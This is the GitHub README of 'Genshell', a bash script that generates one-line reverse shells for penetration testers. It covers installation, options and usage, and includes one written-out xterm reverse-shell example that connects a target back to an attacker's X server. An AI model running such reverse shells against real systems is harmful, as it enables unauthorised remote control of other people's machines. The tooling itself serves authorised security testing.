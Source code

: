 # Genshell: A bash copy-and-paste oneline reverse shell generator.

This project is deticated to ippsec. Thank you for releasing over one-hundred hours of phenomenal cybersecurity content.

Another thanks to pentestmonkey for dishing out the awesome shells!

## Forenote 
I found myself browsing other websites flagged as "malicious" for rev shells and got fed up with with security reccomendations. This script automates the generation of shells without leaving the browser (WITH COLORS!). There will likely be  rev shells here that you have seen on other sites such as pentestmonkey, hacktricks, and other pentesting sites; if a shell from your site is used, you will be added to the "Inspirations" section in the beginning of the script. All contributions welcome. This is me giving back to the community that has shared so much with me. 

<!--
*** LOGO !![vmplayer_bx33YLqLcn](https://user-images.githubusercontent.com/68730121/106347752-dc8c6a80-628e-11eb-91e9-3e2d510b2172.png)
![Banner](https://user-images.githubusercontent.com/68730121/106348443-58d57c80-6294-11eb-8aa0-b93806259f58.png)

-->
# Genshell Output 

![vmplayer_0bpLvQBUgZ](https://user-images.githubusercontent.com/68730121/106348803-0184db80-6297-11eb-9146-6b86acea0595.png)




<!-- GETTING STARTED -->
# Installation

1. Using the GitHub repo  
   ```sh
   git clone https://github.com/djjoa/genshell.git
   cd genshell
   chmod +x gennshell
   ./genshell 
   ```
   
2. As a standalone script
   ```sh
   wget https://raw.githubusercontent.com/djjoa/genshell/main/genshell && chmod +x genshell && ./genshell
   #OR 
   curl https://raw.githubusercontent.com/djjoa/genshell/main/genshell -o genshell && chmod +x genshell && ./genshell
   ```

3. **Link the file to your path for native use with bash** (not necessary for the script to work) 
   ```sh
   # Before
   ./genshell -h 

   # After 
   sudo ln -s /genshell_install_dir/genshell /usr/local/bin/genshell 
   genshell -h
   ```
<!-- USAGE EXAMPLES -->

# Help

```sh
./genshell -h

genshell: The atomatic copy-and-paste oneline reverse shell generator. Just add args!

options:
-h|--help              Print this help menu
-b|--banner            Display the banner
-p|--port [INT]        Port you wish to cach your shell back on
-l|--LHOST [IP]        Supply TUN0 addr if not auto-parsed by the script (autoparse is set by default)
-t|--RHOST [IP]        Target IP (optional)
```

# Usage

```sh
./genshell -u
Usage: genshell [-h|--help] -p|--port [args] [-l|--LHOST [args]] [-t|--RHOST [args]] [-b|--banner]
```

# Running the Script 

When run with no arguments, the script displays the banner and help information. 

![vmplayer_HhJF2BiEUP](https://user-images.githubusercontent.com/68730121/106348709-2298fc80-6296-11eb-85c5-3502ec7fff5b.png)

# Generating Reverse Shell Templates 

To generate all reverse shell templates the `-p` or `--port` must be used. The script will attempt to automatically parse your `tun0` network adapter (assuming you are pentesting over a vpn). If it fails, the `-l` or `--LHOST` agument may be passed to manually specificy a listening network adapter. 

```sh
./genshell -p 4444
```

![vmplayer_0bpLvQBUgZ](https://user-images.githubusercontent.com/68730121/106348803-0184db80-6297-11eb-9146-6b86acea0595.png)

# Additional Arguments 
If the `-t` or `--RHOST` argument is passed the `xterm` reverse shell dialog will be displayed at the end of the script. 90% of the shell's don't require a RHOST paramter; they have been ommited by default. 

```sh
./genshell -p 4444 -l 1.1.1.1 -t 4.4.4.4
.... <snip> .... 
##################### XTERM ##################### 
The following command should be run on the server.  It will try to connect back 1.1.1.1 on TCP port 6001

xterm -display 1.1.1.1:1

To catch the incoming xterm, start an X-Server on attacker machine (:1 – which listens on TCP port 6001)

Xnest :1
xhost +4.4.4.4
```

# Usage Examples

* Generate shell templates on interface address `192.168.4.2` listening on port `4444`
```sh
./genshell --port 4444 --LHOST 192.168.4.2
./genshell  -p    4444  -l 192.168.4.2
```
* Generate shell templates with defualt `tun0` adapter listening on port 8181
```sh
./genshell --port 8181
./genshell -p 8181
```

<!-- CONTACT -->
## Contact

Enjoy the shellz! Never leave the terminal again to get exactly what you need to get the job done. 

Zer0 - [@x41x41x41x41](https://twitter.com/x41x41x41x41) - Discord Zer0#0272

Project Link: [https://github.com/djjoa/genshell](https://github.com/djjoa/genshell)



<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements

* [ippsec](https://twitter.com/ippsec)
* [ippsec.rocks](https://ippsec.rocks/?#)
* [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)




<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/djjoa/repo.svg?style=for-the-badge
[contributors-url]: https://github.com/djjoa/repo/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/djjoa/repo.svg?style=for-the-badge
[forks-url]: https://github.com/djjoa/repo/network/members
[stars-shield]: https://img.shields.io/github/stars/djjoa/repo.svg?style=for-the-badge
[stars-url]: https://github.com/djjoa/repo/stargazers
[issues-shield]: https://img.shields.io/github/issues/djjoa/repo.svg?style=for-the-badge
[issues-url]: https://github.com/djjoa/repo/issues
[license-shield]: https://img.shields.io/github/license/djjoa/repo.svg?style=for-the-badge
[license-url]: https://github.com/djjoa/repo/blob/master/LICENSE.txt
[linkedin-shield]: https://img.shields.io/badge/-LinkedIn-black.svg?style=for-the-badge&logo=linkedin&colorB=555
[linkedin-url]: https://linkedin.com/in/djjoa
